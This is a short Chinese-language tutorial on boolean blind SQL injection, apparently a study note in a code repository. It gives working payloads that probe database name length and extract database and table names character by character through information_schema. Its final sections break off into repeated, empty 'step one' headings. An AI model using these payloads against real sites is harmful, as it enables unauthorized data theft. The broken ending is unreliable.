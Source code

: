 # sql盲注

<br><br>

写在前面：盲注可以使用逻辑符and来对我们的指令进行判断
如： /?id=1' and length(database())=8-- #

<br>

````
常用判断语句和函数
length(database())=8 判断当前所在库的长度为8
left()函数返回str字符串中最左边的长度字符。如果str或length参数为NULL，则返回NULL值 如：left(str,length)：
substr()函数：从指定位置开始的输入字符串返回一个子字符串。SUBSTR(字符串, 起点);
````

<br>

## 布尔盲注

<br>

### 第一步：寻找注入点（略）

<br>

### 第二步：判断数据库长度，然后猜测数据库名字

判断当前所在库的长度为8： ?id=1' and length(database())=8--+

然后可以开始进行数据库的猜测了。

猜测数据库第一位： ?id=1' and left(database(),1)>'a' --+ 以此类推可以获得库名

获得库名后可以查表了：?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database()limit 0,1),1,1))>80-- #

上述可以在database()对应的库中查询数据库的第一个表的第一个字符。其中的table_schema 可以写成 ='security'。

<br>

### 第三步：

<br>

### 第一步：寻找注入点（略）

<br>

### 第一步：寻找注入点（略）

<br>
